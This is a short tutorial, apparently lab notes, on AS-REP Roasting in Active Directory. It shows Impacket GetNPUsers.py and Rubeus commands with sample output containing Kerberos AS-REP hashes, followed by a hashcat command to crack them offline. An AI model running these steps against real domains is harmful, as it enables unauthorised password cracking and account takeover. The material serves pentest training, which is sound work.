 **AS-REP Roasting**

Is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "**Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![81bf1dad6425f8f06b0026f4e748f193](https://github.com/user-attachments/assets/2ccdf90a-420f-45dd-8c55-8f1142276804)


**First method**


We should do some recon to obtain the AD users and collect them in a file ```users.txt```:
```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```
 ```
GetNPUsers.py -dc-ip <DomainController_IP> <domain>/<user> -usersfile <path_to_users_file>   
```
**ex**
```
GetNPUsers.py -dc-ip 10.10.73.127 thm.red/thm -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:269af6bae34fa24f66669f64454eb290$95c86c6aad2085a6f0263c92587a1bee24d04e13e74e5c510d7b17287ce772553f28f5fe1306cda7ba06db1c0fede4c09c8e3e8fec0bebfd85c47ded661f54c686216c296ae99d6b389eaa7bbb1b12b85347fee45574d39a4ca2e5f157bb732472d4614787e4204ac82adcee530d4a6a9ab2da7775d06922f8650468826c329bbf4e86c9f6be04d5ff54790a098a09bbc2500659c834c96e4a90ba6e042855eaa1672645f8620abea4f7fb43322624c6950b990fc247f08be8a098adf9920e22c5f7310fe7b710def9b071472c2440629bedc226dc6fadff2e20727bc467e543f6c8
[-] User CREDS-HARVESTIN$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```


The ```GetNPUsers.py``` is used to request Kerberos **TGTs** for user accounts that have the **"Do not require Kerberos preauthentication"**

<br>

**Second method**

```
Rubeus.exe asreproast /nowrap
```
the output will look like this:
```
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b5c8:9b6f:25dc:5bf6%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:AF01B8AF2BA0C81C0D438ACB15A2B476$F766A68EF45E9C5924B096B5B4B0916366763EA31A6301E8DD511ACA336D7E162F29D6703BE0489410EBAB6E2A94EC416F1CA0DBA2B71A42C35BB0D1113E07B81D5D8662BF8CE1BAD89B9B408AFFDD531F0C401101937F1C5E2526E44194BF8CDC1ACB18623D52B19E30AA1D14C15E97FB6B329B92726AC394E0373C090B4C32C1D1CEBA3014BF5B0126F3C014BD1CDED856EC99C26F5566C66488C355BA49E572D445C88C583CCBF7686514297ABCB546FA2C18D15CAC4459235D798A3950C88C3369ABF2991AAF5EAB9D2C03792108F328EC65358427D86E5C595E7F5CB61828EABA0A99FA33F0241C51607BB14F1F415EA655
```
**Cracking the AS-REP Hash:**

To crack the AS-REP hash, you can use Hashcat with the following command:
```
hashcat -m 18200 hash.txt /path/to/rockyou.txt
```





























